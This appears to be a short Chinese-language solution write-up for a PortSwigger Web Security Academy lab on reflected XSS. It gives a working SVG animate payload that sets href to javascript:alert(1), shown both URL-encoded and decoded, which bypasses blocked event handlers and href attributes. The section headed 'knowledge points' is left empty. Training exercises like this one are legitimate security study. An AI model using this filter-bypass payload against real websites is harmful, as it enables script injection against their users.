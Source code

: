 # 题意
![](pic/9-3.png)

该实验包含一个反射型XSS漏洞，并且有一些常见的tags。但是所有的事件和锚点href属性都被封锁了。因此，需要注入的payload需要实现：一旦点击就唤起alert()函数。需要注意的是，payload中需要写入单词“click”来模拟用户的点击。
# 解题思路
payload如下，进入该网页即可
```
https://YOUR-LAB-ID.web-security-academy.net/?search=%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3D20%3EClick%20me%3C%2Ftext%3E%3C%2Fa%3E
```

```
https://YOUR-LAB-ID.web-security-academy.net/?search=<svg><a><animate+attributeName=href+values=javascript:alert(1)+/><text+x=20+y=20>Click me<text></a>
```
[这段payload的原理](https://xz.aliyun.com/t/7612)
```
<svg><a><animate attributeName=href values=javascript:alert(1)/></a>
```
# 知识点